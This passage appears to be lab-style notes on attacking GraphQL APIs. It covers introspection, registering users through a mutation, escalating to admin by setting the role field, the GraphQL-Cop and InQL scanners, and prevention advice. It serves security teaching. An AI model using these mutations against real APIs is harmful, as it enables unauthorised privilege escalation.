

You can now query all fields of the `RegisterUserInput` object with the following introspection query to obtain all fields that you can use in the mutation:

```graphql
{   
  __type(name: "RegisterUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

From the result, you can identify that you can provide the new user's `username`, `password`, `role`, and `msg`:



As you identified earlier, you need to provide the password as an MD5 hash. To hash your password, you can use the following command:

```bash
d41y@htb[/htb]$ echo -n 'password' | md5sum

5f4dcc3b5aa765d61d8327deb882cf99  -
```

With the hashed password, you can now finally register a new user by running the mutation:

```graphql
mutation {
  registerUser(input: {username: "vautia", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "user", msg: "newUser"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

The result contains the fields you queried in the mutation's body so that you can check for errors:



You can now successfully log in to the application with your newly registered user.

#### Exploitation

To identify potential attack vectors through mutations, you must thoroughly examine all supported mutations and their corresponding inputs. In this case, you can provide the `role` argument for newly registered users, which might enable you to create users with a different role than the default one, potentially allowing you to escalate privileges.

You have identified the roles `user` and `admin` by querying all existing users. Create a new user with the role `admin` and check if this enables you to access the internal admin endpoint at `/admin`. You can use the following GraphQL mutation:

```graphql
mutation {
  registerUser(input: {username: "vautiaAdmin", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "admin", msg: "Hacked!"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

In the result, you can see that the role `admin` is reflected, which indicates that the attack was successful.



After logging in, you can now access the admin endpoint, meaning you have successfully escalated your privileges.

## Tools of the Trade

Already discussed:

- [graphw00f](https://github.com/dolevf/graphw00f)
- [graphql-voyager](https://github.com/graphql-kit/graphql-voyager)

### [GraphQL-Cop](https://github.com/dolevf/graphql-cop)

... is a security audit tool for GraphQL APIs. After cloning the GitHub repo and installing the required dependencies, you can run the `graphql-cop.py` Python script:

```bash
d41y@htb[/htb]$ python3 graphql-cop.py  -v

version: 1.13
```

You can then specify the GraphQL API's URL with the `-t` flag. GraphQL-Cop then executes multiple basic security configuration checks and lists all identified issues, which is an excellent baseline for further manual tests:

```bash
d41y@htb[/htb]$ python3 graphql-cop/graphql-cop.py -t http://172.17.0.2/graphql

[HIGH] Alias Overloading - Alias Overloading with 100+ aliases is allowed (Denial of Service - /graphql)
[HIGH] Array-based Query Batching - Batch queries allowed with 10+ simultaneous queries (Denial of Service - /graphql)
[HIGH] Directive Overloading - Multiple duplicated directives allowed in a query (Denial of Service - /graphql)
[HIGH] Field Duplication - Queries are allowed with 500 of the same repeated field (Denial of Service - /graphql)
[LOW] Field Suggestions - Field Suggestions are Enabled (Information Leakage - /graphql)
[MEDIUM] GET Method Query Support - GraphQL queries allowed using the GET method (Possible Cross Site Request Forgery (CSRF) - /graphql)
[LOW] GraphQL IDE - GraphiQL Explorer/Playground Enabled (Information Leakage - /graphql)
[HIGH] Introspection - Introspection Query Enabled (Information Leakage - /graphql)
[MEDIUM] POST based url-encoded query (possible CSRF) - GraphQL accepts non-JSON queries over POST (Possible Cross Site Request Forgery - /graphql)
```

### [InQL](https://github.com/doyensec/inql)

... is a Burp extension you can install via the BApp Store in Burp. After a successful installation, an InQL tab is added in Burp.

Furthermore, the extension adds GraphQL tabs in the Proxy History and Burp Repeater that enables simple modification of the GraphQL query without having to deal with the encompassing JSON syntax:



Furthermore, you can right-click on a GraphQL request and select `Extension > InQL - GraphQL Scanner > Generate queries with InQL Scanner`:



Afterward, InQL generates introspection information. The information regarding all mutations and queries is provided in the InQL tab for the scanned host:



## Vulnerability Prevention

### Information Disclosure

General security best practices apply to prevent information disclosure vulns. These include preventing verbose error messages and displaying generic error messages instead. Furthermore, introspection queries are potent tools for obtaining information. As such, they should be disabled as possible. At the very least, whether any sensitive information is disclosed in introspection queries should be checked. If this is the case, all sensitive information needs to be removed.

### Injection Attacks

Proper input validation checks need to be implemented to prevent any injection-type attacks such as SQLi, command injection, or XSS. Any data the user supplies should be treated as untrusted until it has been appropriately sanitized. The use of allowlists should be preferred over denylists.

### DoS

Proper limits needs to be implemented to mitigate DoS / brute-force attacks. This can include limits on the GraphQL query depth or maximum GraphQL query size, as well as rate limits on the GraphQL endpoint to prevent multiple subsequent queries in quick succession. Additionally, batching should be disabled in GraphQL queries whenever possible. If batching is required, the query depth needs to limited.

### API Design

General API security best practices should be followed to prevent further attacks, such as attacks against improper access control or attacks resulting from improper authorization checks on mutations. These best practices include strict access control measures based on the principle of least privilege. In particular, the GraphQL endpoint should only be accessible after successful authentication, if possible, in accordance with the API's use case. Furthermore, authorization checks must be implemented to prevent actos from executing queries or mutations to which they are not authorized.